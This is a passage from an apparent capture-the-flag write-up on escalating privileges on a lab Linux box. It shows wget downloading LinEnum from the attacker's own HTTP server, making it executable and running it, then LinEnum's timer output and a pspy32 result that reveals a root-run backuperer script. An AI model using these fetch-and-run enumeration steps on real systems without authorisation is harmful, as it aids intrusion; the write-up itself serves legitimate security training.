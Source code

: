 Grab the _user.txt_ flag.

![](../images/max/655/1*jUr2sHd5ryedFhHasAoI5w.png)

To view the _root.txt_ flag, we need to escalate our privileges to root.

Let’s transfer the _LinEnum_ script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the _/tmp_ directory where we have write privileges and download the _LinEnum_ script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We get back the following result.

```text
[-] Systemd timers:
NEXT                         LEFT          LAST                         PASSED      UNIT                         ACTIVATES
Fri 2020-01-17 21:46:48 EST  59s left      Fri 2020-01-17 21:41:48 EST  4min 0s ago backuperer.timer             backuperer.service
Fri 2020-01-17 23:20:44 EST  1h 34min left Fri 2020-01-17 15:01:45 EST  6h ago      apt-daily.timer              apt-daily.service
Sat 2020-01-18 06:20:57 EST  8h left       Fri 2020-01-17 06:18:35 EST  15h ago     apt-daily-upgrade.timer      apt-daily-upgrade.service
Sat 2020-01-18 21:45:29 EST  23h left      Fri 2020-01-17 21:45:29 EST  20s ago     systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
```

I’ve never seen a service called _backuperer.service_ before, so this must be a custom service. Let’s see if it is being run as a scheduled task. Download _pspy32_ and view results.

```text
2020/01/18 14:22:48 CMD: UID=0    PID=14010  | /bin/bash /usr/sbin/backuperer
```
